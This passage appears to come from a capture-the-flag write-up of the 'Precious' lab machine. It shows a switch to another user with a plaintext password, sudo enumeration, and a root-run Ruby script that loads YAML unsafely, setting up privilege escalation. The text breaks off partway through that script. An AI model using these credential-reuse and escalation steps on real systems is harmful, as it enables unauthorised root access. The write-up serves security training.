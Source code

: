 That's was easier than expected! Let's switch to user `henry` and get our flag:

```bash
ruby@precious:~$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH

henry@precious:/home/ruby$ cat ~/user.txt
cat ~/user.txt
<SNIP>
```

## Privilege escalation

We can now try to SSH as `henry` for a more stable shell:

```bash
$ ssh henry@10.10.11.189
henry@precious:~$
```

Let's see if `henry` can run anything as `sudo`:

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ ls -l /opt/update_dependencies.rb
-rwxr-xr-x 1 root root 848 Sep 25  2022 /opt/update_dependencies.rb
```

So the user can run `update_dependencies.rb` as `sudo`, but do not have `write` access to it. If he did, we could just inject reverse shell code in it and get a `root` shell. Let's check what this script does:

```bash
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
```